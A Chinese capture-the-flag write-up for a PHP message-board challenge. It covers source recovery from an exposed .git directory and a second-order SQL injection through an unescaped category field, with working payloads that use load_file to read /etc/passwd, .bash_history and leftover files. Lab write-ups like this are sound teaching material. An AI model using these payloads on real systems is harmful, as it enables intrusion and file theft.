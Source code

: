 ![](<./img/Pasted image 20230119140827.png>)

![](<./img/Pasted image 20230119140851.png>)

尝试发帖时被要求登陆

![](<./img/Pasted image 20230119141013.png>)

一时竟没想到是猜密码

```
username: zhangwei
password: zhangwei666
```

![](<./img/Pasted image 20230119141928.png>)

```
/comment.php?id=1
```

![](<./img/Pasted image 20230119142123.png>)

# 获取源码

扫描目录

![](<./img/Pasted image 20230119142301.png>)

存在`git`泄露

![](<./img/Pasted image 20230119142408.png>)

![](<./img/Pasted image 20230119142530.png>)

被骗了.jpg

然后发现一个功能更强大一点的`githacker`

```shell
githacker --url http://99171b24-38c9-4bf6-ae83-d4cecaa108ef.node4.buuoj.cn:81/.git/ --output-folder result --delay 0.1 --threads 1
```

```shell
git log --reflog
```

![](<./img/Pasted image 20230119144942.png>)

可以看出进行过版本回退

```shell
git reset --hard e5b2a
```

```php
<?php
include "mysql.php";
session_start();
if($_SESSION['login'] != 'yes'){
    header("Location: ./login.php");
    die();
}
if(isset($_GET['do'])){
switch ($_GET['do'])
{
case 'write':
    $category = addslashes($_POST['category']);
    $title = addslashes($_POST['title']);
    $content = addslashes($_POST['content']);
    $sql = "insert into board
            set category = '$category',
                title = '$title',
                content = '$content'";
    $result = mysql_query($sql);
    header("Location: ./index.php");
    break;
case 'comment':
    $bo_id = addslashes($_POST['bo_id']);
    $sql = "select category from board where id='$bo_id'";
    $result = mysql_query($sql);
    $num = mysql_num_rows($result);
    if($num>0){
	    $category = mysql_fetch_array($result)['category'];
	    $content = addslashes($_POST['content']);
	    $sql = "insert into comment
	            set category = '$category',
	                content = '$content',
	                bo_id = '$bo_id'";
	    $result = mysql_query($sql);
    }
    header("Location: ./comment.php?id=$bo_id");
    break;
default:
    header("Location: ./index.php");
}
}
else{
    header("Location: ./index.php");
}
?>
```

在`write`操作中，所有的`POST`参数都经过了`addslashes`的转义，而在`comment`操作中，`category`却没有进行`addslashes`转义，这就给二次注入创造了机会

# 文件读取

综合利用单行和多行注释使查询合法
```
title=ttt&content=ccc&category=',content=load_file('/etc/passwd')/*
```

这时发表评论内容

```
content=*/,#
```

注入的结果是这样

```sql
insert into comment
set category = '',content=load_file('/etc/passwd')/*',
    content = '*/,#',
    bo_id = '$bo_id'
```

![](<./img/Pasted image 20230119153110.png>)

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
mysql:x:102:105:MySQL Server,,,:/var/lib/mysql:/bin/false
www:x:500:500:www:/home/www:/bin/bash
```

不寻常的一点是，用户`www`就像普通用户一样拥有`/home`下的家目录

而且通常非登录用户的登录`shell`都设为`nologin`以防止其登录，而`www`的登录`shell`却被设置为`bash`，此事必有蹊跷

![](<./img/Pasted image 20230119154202.png>)

读取`/home/www/.bash_history`

```shell
cd /tmp/
unzip html.zip
rm -f html.zip
cp -r html /var/www/
cd /var/www/html/
rm -f .DS_Store
service apache2 start
```

1. 在`/tmp`下解压了`html.zip`
2. 删除压缩包
3. 将解压出来的`html`文件夹递归复制到`/var/www`下
4. 删除`/var/www/html/.DS_Store`
5. 启动服务器

删了，但没完全删掉.jpg

读取`/tmp/html/.DS_Store`

对于二进制文件，采用十六进制编码输出

```sql
hex(load_file('/tmp/html/.DS_Store'))
```

```python
s = 'xxxxxx'

f = open('.DS_Store','w')

for i in range(len(s) // 2):
    ss = s[2 * i: 2 * i + 2]
    f.write(chr(int(ss, base=16)))
```

![](<./img/Pasted image 20230119164005.png>)

读取`/tmp/html/flag_8946e1ff1ee3e40f.php`

![](<./img/Pasted image 20230119164349.png>)

然后发现这个`flag`是假的QAQ

真正的`flag`在`/var/www/html/`下

![](<./img/Pasted image 20230119164540.png>)

#Web #PHP #代码审计 #git泄露 #DS_Store泄露 #二次注入